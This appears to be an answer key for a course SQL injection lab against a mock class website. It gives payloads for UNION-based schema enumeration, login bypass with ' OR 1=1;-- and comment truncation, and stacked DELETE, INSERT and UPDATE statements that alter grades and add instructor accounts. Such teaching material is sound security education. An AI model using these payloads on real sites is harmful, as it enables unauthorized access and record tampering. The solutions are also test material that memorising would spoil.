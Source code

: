# SQL Injection Challenges SOLUTIONS

## 1. Use the INFO 310 site to see Alice's grade.

1. First, we need to find the name of the database:

```
' UNION SELECT 1,2,3,database();-- 
```
2. Next, we can find the name of all tables in this database:

```
' UNION SELECT 1,2,3,table_name FROM information_schema.TABLES WHERE table_schema='<database_name>';-- 
```

3. Now, we can look for the column names of the table of interest. This will allow us to search by elements other than student ID.

```
UNION SELECT 1,2,3,column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='<table_name>';-- 
```
4. Finally, you can view a specific entry in the table based on a column variable.

```
' OR <column_name> = <variable>;-- 
```

---

## 2. Use the instructor portal to make an announcement as Dr. Reifers that class is cancelled on Wednesday.

1. We can log in as an instructor by entering their email and ending our query there. This will then allow us to login without a password.

```
<instructor email>';-- 
```

2. Enter any text for the password and you can login!

### OR

1. You can use the classic 1=1 injection in place of an email. This will allow you to login with the first credentials listed in the SQL table.

```
' OR 1=1;-- 
```

2. Enter any text for the password and you can login!

---

## 3. Change your grade in the gradebook to a 4.0.

1. Use can use `UPDATE` to change entries in a specific table:

```
UPDATE <gradebook> SET <column_name> = <value> WHERE <other_column_name> = <other_value>;-- 
```
### OR

1. Use `DELETE` to remove a current entry with a specific column value.

```
'); DELETE FROM <table_name> WHERE <column_name> = <value>;-- 
```

2. Now, you can use `INSERT` to add a new entry with your updated grade. Make sure you also add all the other appropriate variables for all columns in the table.

```
'); INSERT INTO <table_name> (<column_name_1>, <column_name_2>, <column_name_3>, <column_name_4>) VALUES (<value_1>, <value_2>, <value_3>, <value_4>);-- 
```

--- 

## 4. Give yourself instructor level privledges and make an announcement **as Bob** letting everyone know you hacked the INFO 310 website.

1. Find the column names for the login credential table the same way we did in the first challenge:

```
UNION SELECT 1,2,3,column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='<table_name>';-- 
```

2. Use `INSERT` to add an entry with your own credentials:

```
'); INSERT INTO <table_name> (<column_name_1>, <column_name_2>, <column_name_3>) VALUES (<value_1>, <value_2>, <value_3>);-- 
```
3. Login with your newly created credentials and post an announcement!